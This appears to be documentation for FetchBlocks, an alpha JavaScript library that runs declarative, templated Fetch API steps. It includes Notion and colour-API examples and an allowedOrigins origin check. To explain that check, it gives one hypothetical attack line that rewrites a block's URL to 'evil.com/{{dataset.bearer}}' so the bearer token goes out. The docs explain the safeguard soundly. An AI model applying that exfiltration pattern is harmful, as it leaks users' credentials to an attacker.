 ```yaml
---
sidebar_position: 1
slug: /
---
```


# FetchBlocks

An experimental system using a declarative syntax based on the [Fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) to quickly move data around.

They are meant to be "webby" - safe and linkable.

**But** this repo is just describing an early concept along with an alpha implementation. So there are rough edges, and the API is subject to change.

## Getting the code

FetchBlocks is meant to run in any modern JavaScript environment that supports ESM, Fetch, and WASM. There's a bundle provided for older environments that polyfills some APIs and adds commonjs support.

### Browser

```html
<script type="module">
  import { fetchblock } from "https://esm.sh/@bgrins/fetchblocks/web/mod.js";
</script>
```

### Node

```js
let { fetchblock } = require("@bgrins/fetchblocks");
```

```js
import { fetchblock } from "@bgrins/fetchblocks";
```

### Deno

```js
import { fetchblock } from "https://deno.land/x/fetchblocks/mod.js";
```

## Your first few fetchblocks

### Basic

The fetchblock is a JS array of "steps" which can be serialized / deserialized. This constraint is important for later, but in practice you'd call this from the host JS environment like so:

```js
let block = new fetchblock([
  { resource: "https://x-colors.herokuapp.com/api/hex2rgb?value=FFFFFF" },
]);
let response = await block.run(); // Object { hex: "#FFFFFF", rgb: "rgb(255, 255, 255)" }
```

The options in the first step reflect onto the Fetch API, so head over to [MDN](https://developer.mozilla.org/en-US/docs/Web/API/fetch) to see the full options. But a more complex call could look like this:

```js
let block = new fetchblock([
  {
    resource:
      "https://api.notion.com/v1/databases/{{dataset.databaseid}}/query",
    method: "POST",
    headers: {
      "Notion-Version": "2022-02-22",
      Authorization: "Bearer {{dataset.bearer}}",
    },
  },
]);
```

### With dataset

You'll see in the example above `{{dataset.bearer}}`. When you call `block.run` you can pass in some options, one of them is a special object called `dataset` (name borrowed from [HTMLElement.dataset](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/dataset)). And string value in the block is passed through a [liquid template](https://shopify.github.io/liquid/) to flatten those values into the strings. Here's an example:

```js
let block = new fetchblock([
  {
    resource:
      "https://x-colors.herokuapp.com/api/hex2rgb?value={{dataset.hex}}",
  },
]);
let response = await block.run({
  dataset: {
    hex: "000000",
  },
}); // {"hex":"#000000","rgb":"rgb(0, 0, 0)"}
```

Now the caller can pass in a different value. Why is this useful? Because the blocks can also be hosted remotely or reused. For example:

```js
let block = fetchblocks.loadFromURI(
  "https://gist.githubusercontent.com/bgrins/fc9cf06de8b0118bd18e4c3d08cd092b/raw/f3d4fb66655cc2e669a1c83679953b9f3b39e2ca/test.json"
);
let response = await block.run({
  dataset: {
    hex: "ff00ff",
  },
}); // {"hex":"#FF00FF","rgb":"rgb(255, 0, 255)"}
```

You may worry about seeing `dataset.bearer` above, combined with linked blocks. What if the upstream block changed the URL from `"https://api.notion.com/v1/databases/{{dataset.databaseid}}/query"` to `"evil.com/{{dataset.bearer}}"`? There's a way to protect from this, inspired by [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS). If you pass the dataset key as an object with `allowedOrigins` then the fetchblock will throw before attempting to make a request if the domain doesn't match. For example, this will work:

```js
let block = new fetchblock([
  {
    resource:
      "https://api.notion.com/v1/databases/{{dataset.databaseid}}/query",
    method: "POST",
    headers: {
      "Notion-Version": "2022-02-22",
      Authorization: "Bearer {{dataset.bearer}}",
    },
  },
]);
let response = await block.run({
  dataset: {
    bearer: {
      value: "secret",
      allowedOrigins: ["https://api.notion.com"],
    }
  },
});
```

But this will throw:

```js
let response = await block.run({
  dataset: {
    bearer: {
      value: "secret",
// highlight-start
      allowedOrigins: ["https://api.slack.com"],
// highlight-end
    }
  },
}); // throws TODO get message here
```

### Linking blocks

Todo

## Adding steps

So far what's been shown could be easily done with a call to `fetch`. Fetchblocks expect the first step will be either an external resource, or a link to another block. The subsequent steps are called "transforms". Each takes in the value from the previous step, does some kind of transformation, and passes it to the next one.

TODO - implement this: These run in a WASM-based JavaScript interpreter which doesn't have access to the outside world. So the environment is very constrained (i.e. it can't access the network, DOM, native APIs, etc). It basically can do object manipulation and math.

Because the steps are declarative, we can create a plan before running anything and know exactly what it is meant to do.
```
